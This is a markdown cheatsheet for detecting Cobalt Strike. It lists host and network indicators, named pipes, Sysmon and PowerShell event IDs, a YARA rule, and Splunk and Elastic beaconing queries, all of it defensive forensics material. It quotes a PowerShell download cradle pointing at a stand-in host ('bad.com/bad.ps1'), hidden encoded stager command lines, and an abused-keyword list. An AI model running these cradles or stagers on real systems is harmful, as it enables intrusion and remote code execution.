



# Cobalt Strike Cheatsheet

- [Cobalt Strike Cheatsheet](#cobalt-strike-cheatsheet)
  - [Cobalt Strike (SANS DFIR IoCs)](#cobalt-strike-sans-dfir-iocs)
    - [Process Tree Detection](#process-tree-detection)
      - [IoCs](#iocs)
    - [Cobalt Strike PowerShell and WMI Processes](#cobalt-strike-powershell-and-wmi-processes)
      - [IoCs](#iocs-1)
    - [SysWOW64 Activity](#syswow64-activity)
      - [IoCs](#iocs-2)
    - [Named Pipe Detection (from Memory)](#named-pipe-detection-from-memory)
      - [IoCs](#iocs-3)
    - [Named Pipe Detection (with Sysmon)](#named-pipe-detection-with-sysmon)
      - [IoCs](#iocs-4)
    - [Idenfication of Named Pipes at Scale (with Sysmon)](#idenfication-of-named-pipes-at-scale-with-sysmon)
      - [IoCs](#iocs-5)
    - [Identifying Cobalt Strike via PowerShell](#identifying-cobalt-strike-via-powershell)
      - [IoCs](#iocs-6)
    - [Scaling Detection in PowerShell Logs](#scaling-detection-in-powershell-logs)
  - [Cobalt Strike Beacon Analysis (Host IoCs)](#cobalt-strike-beacon-analysis-host-iocs)
    - [`powershell` and `powershell-import`](#powershell-and-powershell-import)
      - [IoCs](#iocs-7)
      - [IoCs](#iocs-8)
    - [`powerpick`](#powerpick)
      - [IoCs](#iocs-9)
    - [`jump psexec`](#jump-psexec)
      - [IoCs](#iocs-10)
      - [IoCs](#iocs-11)
    - [`jump psexec_psh`](#jump-psexec_psh)
      - [IoCs](#iocs-12)
    - [`jump winrm`](#jump-winrm)
      - [IoCs for Compromised System](#iocs-for-compromised-system)
      - [IoCs for Remote (Attacker) System](#iocs-for-remote-attacker-system)
    - [`remote-exec wmi`](#remote-exec-wmi)
      - [IoCs](#iocs-13)
    - [`remote-exec powershell`](#remote-exec-powershell)
      - [IoCs](#iocs-14)
  - [Cobalt Strike Beacon Analysis (Network IoCs)](#cobalt-strike-beacon-analysis-network-iocs)
    - [HTTP Beacons](#http-beacons)
      - [IoCs](#iocs-15)
    - [SMB Beacons](#smb-beacons)
      - [IoCs](#iocs-16)
    - [Domain Fronting](#domain-fronting)
    - [Reverse Proxy Detection](#reverse-proxy-detection)
      - [IoCs](#iocs-17)


## Cobalt Strike (SANS DFIR IoCs) 

* Reference: 1

> **NOTE:** Cobalt Strike's strength is found within it's flexibility, durability, and elasticity. Essentially, it's able to string together many exploits in a robust and customizable C2 framework better than most other frameworks out there...

### Process Tree Detection

> From memory extraction...


#### IoCs
1. Prescence of `WmiPrvSE.exe` spawning multiple `powershell.exe` processes/sacrifical processes.
2. Multiple `rundll32.exe` processes generated (default **sacrifical process** for Cobalt Strike; can be changed but still noisy!) 


### Cobalt Strike PowerShell and WMI Processes

> Here we are drilling down on the `rundll32.exe` process of interest...


#### IoCs
1. Naked command line with **no additional parameters specified** (default setting).
> That being said, the setting can be changed via the malleable C2 Setting
> 
> **HOWEVER** even with a change in the default settings, having multiple command lines with no parameters specified looks **very odd**!

### SysWOW64 Activity

> Here we are looking for the execution of 32-bit code (SysWOW64) associated with with the multiple sacrifical processes of `powershell.exe`


#### IoCs
1. Multiple instances of running **`SysWOW64`**, which indicates the prescence of 32-bit code linked with Cobalt Strike! 

### Named Pipe Detection (from Memory)

> Most common and **default** named pipes used by Cobalt Strike

| Pipe Name | Description |
| --- | --- |
| `\\.\pipe\MSSE-####-server` | Default Artifact Kit (AV bypass) |
| `\\<target>\pipe\msagent_##` | Beacon P2L (SMB) Communication |
| `\\.\pipe\status_##` | Stager for Lateral Movement (psexec\_psh Module) |
| `\\.\pipe\postex_ssh_####` | Communication Pipe for SSH Sessions |
| `\\.\pipe\########` (7-10 char) | Post-Exploitation Jobs (mimikatz, powerpick, pth, etc.) |
| `\\.\pipe\postex_####` | Post-Exploitation Jobs v4.2+ |

> '#' = randomly generated hex-value


> Here is an example of changing the output of Named Pipe names so that it is more difficult to detect, **HOWEVER**, even with an alternate named pipe name seeing an internal workstation connecting to another internal workstation via named pipe is still odd...

#### IoCs
1. Each of the named pipes **must** all be changed from defaults, otherwise they can be identified. Attackers often don't modify the defaults because they are still able to go undetected!

### Named Pipe Detection (with Sysmon)


#### IoCs
1. Enable **Named Pipe** creation events within Sysmon
2. Look for Events **17** and **18** indicating named creation
3. Pay attention to **PipeName** for default or unique names associated with Cobalt Strike
4. Pay attention to **Image** to look for **SysWOW64** (unique to Cobalt Strike for 32-bit code) and oddly named executables (e.g., `perfmonsvc64.exe`) that seem out of place

### Idenfication of Named Pipes at Scale (with Sysmon)

> Here we are filtering for Event Codes 17 and 18 (named pipe creation), pay special attention to **PipeName** and **Executable (Image Binary)** columns.


#### IoCs
1. Within **Executable (Image Binary)** column we see **`32-bit PowerShell`** being ran multiple insances of **`rundll32.exe`**
2. Within **PipeName** column we seemingly **random Pipe Names**
    > **NOTE:** the length of the "random" named pipes are associated with the commands executed (e.g., mimikatz = **8 characters**, named piped = **8 characters**) 

```bash

# Sample YARA rule to detect randomized Named Pipes in an environment

rule cs_job_pipe
{
    meta:
        description = "Detects CobaltStrike Post Exploitation Named Pipes"
        author = "Riccardo Ancarani & Jon Cave"
        date = "2020-10-04"
    strings:
        $pipe = /\\\\\.\\pipe\\[0-9a-f]{7,10}/ ascii wide fullword
        $guidPipe = /\\\\\.\\pipe\\[0-9a-f]{8}\-/ ascii wide
    condition:
        $pipe and not ($guidPipe)
}
```

* Additional [Malleable Profiles](https://gist.github.com/MHaggis/6c600e524045a6d49c35291a21e10752) that can used for additional IoCs to hunt for!

> **NOTE:** one set of attackers will always use the **default** profiles, whereas another set of attackers will look to **modify the defaults**

* [Detection Name Pipe Creation](https://labs.withsecure.com/publications/detecting-cobalt-strike-default-modules-via-named-pipe-analysis)

### Identifying Cobalt Strike via PowerShell

**Enable PS Script Block Logging**

> PS Script Block Logging enabled via Administrative Template (Group Policy) will log:
> * Cmdlets, functions, full scripts
> * Any use of PS > shell, ISE, or custom implementations

* PSv5 records entire script **ONLY** the first it's ran...

Once properly enabled, pay attention to the following EIDs:
* **EID 4103**: Module logging and pipeline output
* **EID 4104**: Script Block logging

Recommendations:
* Module, Script Block, and Transcription logs
* Increase default log sizes
* Centralize your logs
* Create filters to search for indicators

#### IoCs

> Output of the **`powershell-import`** utility within Cobalt Strike...


1. **`IEX`** download cradle typically used by machines to download things from the internet. Here we see it's reaching out to itself via **`127.0.0.1`**, **very odd**!
2. The prefix **`-exec bypass -EncodedCommand`** is very common for commands ran via Cobalt Strike.
3. **`FromBase64String`** another common encoding for an imported PowerShell script.

### Scaling Detection in PowerShell Logs

* Events may capture different parts of an attack
* **4103** records module/pipeline output
* **4104** records code (scripts) executed (look for “Warning” events)
* The PowerShell download cradle is heavily used by Cobalt Strike:
**`IEX (New-Object Net.Webclient).downloadstring("http://bad.com/bad.ps1")`**

**Filter using commonly abused keywords**

| | | | |
| --- | --- | --- | --- |
| DownloadString | EncodedCommand | FromBase64String | rundll32 |
| IEX | Invoke-Expression | WebClient | syswow64 |
| powershell -version | http://127.0.0.1 | Reflection | $DoIt |
| Start-Process | Invoke-WMIMethod | Invoke-Command | |

* Look for obvious signs of encoding and obfuscation

## Cobalt Strike Beacon Analysis (Host IoCs) 

* Reference: 2

> There are plenty of additional Cobalt Strike Host artifacts beyond reference [2] so long as proper endpoint logging is turned on. See [4,5,8] for more examples!

### `powershell` and `powershell-import`

* `powershell` Beacon:
  * Executes commands written in PowerShell within the Cobalt Strike framework, OS will generate an **EID 400 event log (PowerShell Engine Startup)** on the system that the command is executed on. 

* `powershell-import` Beacon:
  * Imports a PowerShell script into the Beacon session. The file system artifacts that are generated will vary depending on whether the powershell command is executed before or after the powershell-import command.

**Observations of `powershell` before `powershell-import`**


#### IoCs
1. The HostApplication field is set to `powershell -nop -exec -bypass -EncodedCommand <base64-encoded-command>`
2. The Base64 encoded command decodes to the `<command>` executed

**Observations from `powershell` after `powershell-import`**


#### IoCs
1. The HostApplication field is set to `powershell -nop -exec -bypass -EncodedCommand <base64-encoded-command>`
2. The base64 encoded command decodes to `IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:<ephemeral-port-number>/'); <command>`

### `powerpick`

* `powerpick` Beacon:
  * Used to execute a PowerShell command without invoking `powershell.exe`
  * The filesystem will generate an **EID 400 event log (PowerShell Engine Startup)** on the compromised system
  * The powerpick command will contain a **mismatch between the version number** in the `HostVersion` and `EngineVersion` event log fields
  * The event generated will also have the path to the `rundll32.exe` executable in the `HostApplication` field, as it is **the default program**


#### IoCs
1. `HostName` field is set to `ConsoleHost`
2. `HostApplication` field is set to the file path of `rundll32.exe` (is the **current default**, but may change if the attacker is motivated enough)
3. The `HostVersion` and `EngineVersion` fields are set to different values

### `jump psexec`

* `jump psexec` Beacon:
  * Establishes an additional Beacon on a remote system.
  * When executed the `jump psexec` command through a Beacon session, the filesystem will generate an **EID 7045 event log (Service Installation)** on the remote system


> **Cobalt Strike v. 4.1 and earlier:** `jump psexec` Beacon command will have the “Service File Name” set to `127.0.0.1` localhost (e.g., `\\127.0.0.1\ADMIN$\7f5747a.exe`)

#### IoCs
1. The **Service Name** field is set to `<7-alphanumeric-characters>`
2. The **Service File Name** field is set to `\\127.0.0.1\ADMIN$\<7-alphanumeric-characters>.exe`


> **Cobalt Strike v. 4.1+:** `jump psexec` Beacon command will have the “Service File Name” set to the destination computer's IP address `10.0.0.16` (default setting) (e.g., `\\10.0.0.16\ADMIN$\9a845c4.exe`)

#### IoCs
1. The **Service Name** field is set to `<7-alphanumeric-characters>`
2. The **Service File Name** field is set to `\\<System-IPAddress>\ADMIN$\<7-alphanumeric-characters>.exe`


### `jump psexec_psh`

* `jump psexec_psh` Beacon:
  * Establishes an additional Beacon on a remote system via the Windows Service Control Manager.
  * Creates and starts a service that executes a base64 encoded PowerShell Beacon stager, which generates an **EID 7045 event log (Service Installation)** on the remote system


#### IoCs
1. The **Service Name** field is set to `<7-alphanumeric-characters>`
2. The **Service File Name** field is set to `%COMSPEC% /b /c start /b /min powershell -nop -w hidden -encodedcommand <base64-encoded-command>`

### `jump winrm`

* `jump winrm` Beacon: 
  * Establishes a Beacon on a remote system utilizing the Windows Remote Management (WinRM) interface (LOTL).
  * When executed by an adversary through a Beacon session, the filesystem will generate an **EID 400 event log (PowerShell Engine Startup)** on the compromised system.


#### IoCs for Compromised System
1. The `HostApplication` field is set to `powershell -nop -exec -bypass -EncodedCommand <base64-encoded-command>`
2. The base64 encoded command decodes to `IEX (New-Object Net.Webclient).DownloadString(‘http://127.0.0.1:<ephemeral-port-number>/’)`


#### IoCs for Remote (Attacker) System
1. The `HostApplication` field is set to `<path-to-PS-executable> -Version <PS-Version> -s -NoLogo -NoProfile`

### `remote-exec wmi`

* `remote-exec wmi` Beacon:
  * Executes a command on a remote system via WMI.
  * When executed the filesystem will generate an **EID 400 event log (PowerShell Engine Startup)** on the compromised system with the standard Cobalt Strike PowerShell command prefix in the `HostApplication` field


#### IoCs
1. The `HostApplication` field is set to `powershell -nop -exec Bypass -EncodedCommand <base64-encoded-command>`
2. The base64 encoded command decodes to `Invoke-WMIMethod win32_process -name create -argumentlist '<command>' -ComputerName <target>`

### `remote-exec powershell`

* `remote-exec powershell` Beacon:
  * Executes a command on a remote system via PowerShell remoting from a compromised system.
  * Generates an **EID 400 event log (PowerShell Engine Startup)** on the compromised system. 
  * The event created will contain the standard Cobalt Strike PowerShell command prefix in the `HostApplication` field.


#### IoCs
1. The HostApplication field is set to `powershell -nop -exec Bypass -EncodedCommand <base64-encoded-command>`
2. The base64 encoded command decodes to `Invoke-WMIMethod win32_process -name create -argumentlist '<command>' -ComputerName <target>`


## Cobalt Strike Beacon Analysis (Network IoCs) 

* Reference: 5 and 6

**Beacons + How They Work**
* Becaons are the terms used to describe communication between agent and Command & Control Server.
  * **ESSENTIALLY** a "keep-alive" signal sent out to maintain connection with C2.
* Agents sleep for specific time configured with a sleep parameter (used to reduce the amount of requests and evade defenses).
  * **Jitter** is also used to make the sleep parameter more random.

### HTTP Beacons

* By default Cobalt Strike HTTP beacon makes a GET request to **send encrypted metadata in the Cookie header** and check if there is an available task to be executed.
  * Metadata is encrypted with public key injected into beacon.

#### IoCs
1. Results of executed commands are sent to the server using **POST requests** with default url pattern **`/submit.php?id=<beaconID>`**

> **NOTE:** in Cobalt Strike, things like the POST request in HTTP traffic is malleable, so it may not always be reliable IoC!

2. Building a detection that identifies identical intervals between group HTTP request methods made by a source to destination IP.

**Splunk Detection**
> Reduce false-positives by specifying that the number of requests (**connection count**) is > 10 AND the percentage of the requests (**connection count**) coming from the source IP is > 80%

```bash
# Example Splunk Query
index=YOUR_INDEX source="YOUR_HTTP_SOURCE"
| sort 0 _time
| streamstats current=f last(_time) as prevtime by src_ip, dest_port, dest_ip, http_method
| eval timedelta = _time - prevtime
| search timedelta > 0
| eventstats count as total by src_ip, dest_port, dest_ip, host
| stats count, min(_time) as _time, first(url) as uri by src_ip, dest_port, dest_ip, http_method, timedelta, total
| eval prcnt = (count/total)*100
| where prcnt > 80 AND count > 10
| table _time, src_ip, dest_ip, dest_port, http_method, url, timedelta, count, total, prcnt
```

**Elastic Detection**

> **NOTE:** for Elastic, you'll need to use the DevConsole to create an analytic similar to the Splunk Query above.

```json
// Example Elastic (KQL) Query (needs to be tested...)
{
  "size": 0,
  "query": {
    "bool": {
      "filter": [
        { "term": { "event.dataset": "YOUR_DATASET" } },
        { "range": { "@timestamp": { "gte": "TIME_RANGE" } } }
      ]
    }
  },
  "aggs": {
    "connections": {
      "multi_terms": {
        "terms": [
          { "field": "source.ip" },
          { "field": "destination.ip" },
          { "field": "destination.port" },
          { "field": "http.request.method" }
        ],
        "size": 100 
        // NOTE: 
        // This captures only the top 100 most active connections, modify to capture all connections if needed.
        // If you need to scan everything in a large environment, you should implement this logic as an Elastic Transform. That runs in the background, processes every single event
      },
      "aggs": {
        "response_sizes": {
          "terms": {
            "field": "http.response.bytes", 
            "size": 5 // We only need the top few sizes to see dominance
          }
        },
        "total_requests": {
          "value_count": { "field": "@timestamp" } // Count total requests for this connection
        },
        "max_size_count": {
          "max_bucket": {
            "buckets_path": "response_sizes._count" // Grab the count of the #1 most common size
          }
        },
        "consistency_score": {
          "bucket_script": {
            "buckets_path": {
              "max": "max_size_count",
              "total": "total_requests"
            },
            "script": "(params.max / params.total) * 100" // Calculate the percentage
          }
        },
        "beacon_filter": {
          "bucket_selector": {
            "buckets_path": {
              "score": "consistency_score",
              "total": "total_requests"
            },
            "script": "params.score > 90 && params.total > 10" // Filter: >90% match & >10 requests
          }
        }
      }
    }
  }
}
```

3. Hunting for a specfic number of the **received bytes** from a potential C2 server 

```bash
index=YOUR_INDEX source="YOUR_HTTP_SOURCE"
| eventstats count as total by src_ip, dest_ip, dest_port, http_method
| stats count, first(url) as url, first(_time) as _time by src_ip, dest_ip, dest_port, http_method, response_payload, total
| eval prcnt = (count/total) * 100
| where prcnt > 90 AND total > 10
| table _time, src_ip, dest_ip, dest_port, http_method, url, response_payload, prcnt, count
```

> **NOTE:** **`response_payload`** is the size of the HTTP packet without a header (e.g., **`http.request.body.bytes`** in Elastic [7])

**Elastic Detection**

```json
{
  "size": 0,
  "query": {
    "bool": {
      "filter": [
        { "term": { "event.dataset": "YOUR_DATASET" } },
        { "range": { "@timestamp": { "gte": "TIME_RANGE" } } }
      ]
    }
  },
  "aggs": {
    "connections": {
      "multi_terms": {
        "terms": [
          { "field": "source.ip" },
          { "field": "destination.ip" },
          { "field": "destination.port" },
          { "field": "http.request.method" }
        ],
        "size": 100
        // NOTE: 
        // This captures only the top 100 most active connections, modify to capture all connections if needed.
        // If you need to scan everything in a large environment, you should implement this logic as an Elastic Transform. That runs in the background, processes every single event
      },
      "aggs": {
        "response_sizes": {
          "terms": {
            "field": "http.response.body.bytes",
            "size": 5
          }
        },
        "total_requests": {
          "value_count": { "field": "@timestamp" }
        },
        "max_size_count": {
          "max_bucket": {
            "buckets_path": "response_sizes._count"
          }
          // If you get a buckets_path error, change buckets_path to "response_sizes".
        },
        "consistency_score": {
          "bucket_script": {
            "buckets_path": {
              "max": "max_size_count",
              "total": "total_requests"
            },
            "script": "(params.max / params.total) * 100"
          }
        },
        "beacon_filter": {
          "bucket_selector": {
            "buckets_path": {
              "score": "consistency_score",
              "total": "total_requests"
            },
            "script": "params.score > 90 && params.total > 10"
          }
        }
      }
    }
  }
}
```

### SMB Beacons

* SMB beacon works a little bit differently than HTTP beacons. First of all SMB beacon needs a parent beacon which will communicate with it. Instead of HTTP GET and POST requests, an SMB beacon uses SMB Write and Read commands:



* SMB beacon inherits parent beacon sleep settings which basically means that the parent beacon will check-in on its child SMB beacon each time it beacons to Command & Control server.

#### IoCs

1. SMB beacons need a parent beacon to communicate with it, so it listens for tasks instead. For communication SMB beacon uses named pipes with default named pipe of **`msagent_*`** 

> **NOTE:** once again, this is malleable, so it may not always be reliable IoC!

2. Building a detection that identifies identical intervals for SMB communication.

> **NOTE:** Detection for SMB beacons isn’t as straightforward as HTTP beaconing. Because of how SMB works, write to file could happen across different TCP sessions. That’s why we should build detection around FID (File ID) which is a file handle returned when connection to a malicious named pipe was established.

**Splunk Detection**

```bash
index=YOUR_INDEX source="YOUR_SMB_SOURCE" smb_command="2:9"
| sort 0 _time
| streamstats current=f last(_time) as prevtime by src_ip, dest_port, dest_ip, file_name, tree, smb_command, host
| eval timedelta = _time - prevtime
| search timedelta > 0
| eventstats count as total by src_ip, dest_port, dest_ip, file_name, tree, smb_command, host
| stats count as ModeCount, min(_time) as _time by src_ip, dest_port, dest_ip, timedelta, file_name, tree, total, smb_command, host
| eval prcnt = (ModeCount/total)*100
| where prcnt > 80 AND ModeCount > 20
| rename prcnt AS Percentage, total AS Total, timedelta as TimeDelta
| table _time, src_ip, dest_ip, dest_port, file_name, tree, Percentage, TimeDelta, Total
```

**Elastic Detection**

```json
{
  "size": 0,
  "query": {
    "bool": {
      "filter": [
        { "term": { "network.protocol": "smb" } },
        { "exists": { "field": "file.name" } },
        { "range": { "@timestamp": { "gte": "now-24h" } } }
      ]
    }
  },
  "aggs": {
    "smb_beaconing": {
      "multi_terms": {
        "terms": [
          { "field": "source.ip" },
          { "field": "destination.ip" },
          { "field": "destination.port" },
          { "field": "file.name" }
        ],
        "size": 100
      },
      "aggs": {
        "consistency_stats": {
          "scripted_metric": {
            "init_script": "state.timestamps = []",
            "map_script": """
              // SAFETY CHECK: Ensure timestamp exists before accessing
              if (doc.containsKey('@timestamp') && doc['@timestamp'].size() > 0) {
                // Compatible with 7.10+ (ZonedDateTime)
                state.timestamps.add(doc['@timestamp'].value.toInstant().toEpochMilli());
              }
            """,
            "combine_script": "return state.timestamps",
            "reduce_script": """
              def all_ts = new ArrayList();
              for (s in states) { 
                if (s != null) { all_ts.addAll(s); } 
              }
              Collections.sort(all_ts);

              // 1. Minimum Event Threshold (Must have at least 3 events to form 2 deltas)
              if (all_ts.size() < 3) { return 0.0; }

              def delta_counts = new HashMap();
              double valid_deltas_total = 0;
              double max_freq = 0;

              for (int i = 1; i < all_ts.size(); i++) {
                // Calculate Delta in Seconds
                long diff = (all_ts.get(i) - all_ts.get(i-1)) / 1000;

                // LOGIC MATCH: 'search timedelta > 0'
                // Skip 0-second deltas (duplicates/bursts)
                if (diff <= 0) continue; 

                valid_deltas_total++;

                // Frequency Counting
                int count = 1;
                if (delta_counts.containsKey(diff)) {
                  count = delta_counts.get(diff) + 1;
                }
                delta_counts.put(diff, count);

                if (count > max_freq) { max_freq = count; }
              }

              // LOGIC MATCH: 'where ModeCount > 20' (Minimum 20 intervals required)
              if (max_freq < 20) return 0.0;
              
              // Avoid division by zero
              if (valid_deltas_total == 0) return 0.0;

              // Return Percentage (0.0 to 100.0)
              return (max_freq / valid_deltas_total) * 100.0;
            """
          }
        },
        "beacon_filter": {
          "bucket_selector": {
            "buckets_path": {
              "score": "consistency_stats.value" 
            },
            "script": "params.score > 80"
          }
        }
      }
    }
  }
}
```

### Domain Fronting

* Concealing communication between the endpoint and the command and control servers. The main purpose of domain fronting is to connect to a restricted host while pretending to communicate with an allowed host. 
* Attackers use this technique to hide their malicious infrastructure behind legitimate domains.



* Cobalt Strike made domain fronting possible by allowing the operators to configure related settings via the malleable C2 profiles. The following prerequisites must be met in order for domain fronting to be possible:
  * Own a domain. (e.g., infosecppl.store)
  * Pick one of the many web services that provide CDN capabilities. (e.g., Amazon's cloudfront.net).
  * Setup the CDN service to create a new CDN endpoint and redirect traffic to your domain. (e.g., evil-endpoint.cloudfront.net).
  * Setup a profile to facilitate domain fronting.
  * Identify a domain that uses the same CDN to ensure that the traffic will be forwarded to the correct resources.

> From looking at resources, it appears to be nearly impossible to detect domain fronting, that's kind of the point of the technique...

### Reverse Proxy Detection

* Where threat actors use their beacon sessions to establish RDP access through a reverse proxy. Cobalt Strike has the ability to run a SOCKS proxy server on the team server. 
* This enables the operators to setup a listening port and leverage it to relay traffic to and from the open beacon session.



#### IoCs

* Event ID = 4624 Type 3
* The victim’s hostname is captured in this logon 
* Source address = 127.0.0.1
* Soruce port = 0
---

**References**
1.  https://www.youtube.com/watch?v=borfuQGrB8g (DFIR for Cobalt Strike)
2.  https://www.crowdstrike.com/en-us/blog/getting-the-bacon-from-cobalt-strike-beacon/ (Cobalt Strike - Host IoCs)
3.  https://arxiv.org/html/2506.08922v1 (Using ML to Detect Cobalt Strike from Network Traffic Alone)
4.  https://thedfirreport.com/2021/08/29/cobalt-strike-a-defenders-guide/ 
5.  https://thedfirreport.com/2022/01/24/cobalt-strike-a-defenders-guide-part-2/ 
6.  https://underdefense.com/guides/how-to-detect-cobaltstrike-command-control-communication/
7.  https://www.elastic.co/guide/en/ecs/current/ecs-http.html
8.  https://github.com/MichaelKoczwara/Awesome-CobaltStrike-Defence